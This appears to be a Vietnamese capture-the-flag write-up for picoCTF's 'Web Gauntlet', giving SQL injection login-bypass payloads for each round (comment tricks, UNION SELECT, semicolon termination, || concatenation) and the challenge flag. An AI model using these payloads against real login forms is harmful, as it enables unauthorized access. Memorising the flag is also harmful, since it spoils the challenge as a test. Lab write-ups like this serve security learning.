 # Web Gauntlet
-- Sử dụng comment để bypass -> username=`admin'--`

![alt text](./images/image-115.png)

-- Sử dụng comment để bypass ->  username=`admin'/*` & password=abc. Hoặc là sử dụng union để nối dài câu truy vấn -> password= `abc' UNION SELECT 'admin','1` & username=abc

![alt text](./images/image-116.png)

-- Sử dụng `;` để kết thúc câu truy vấn -> username=`admin';` & password=abc

![alt text](./images/image-117.png)

-- Sử dụng || để nối chuỗi -> username=`admi'||'n';` & password=abc. Round 5 sử dụng tương tự Round4

![alt text](./images/image-118.png)

--  -> Flag : `picoCTF{y0u_m4d3_1t_96486d415c04a1abbbcf3a2ebe1f4d02}`
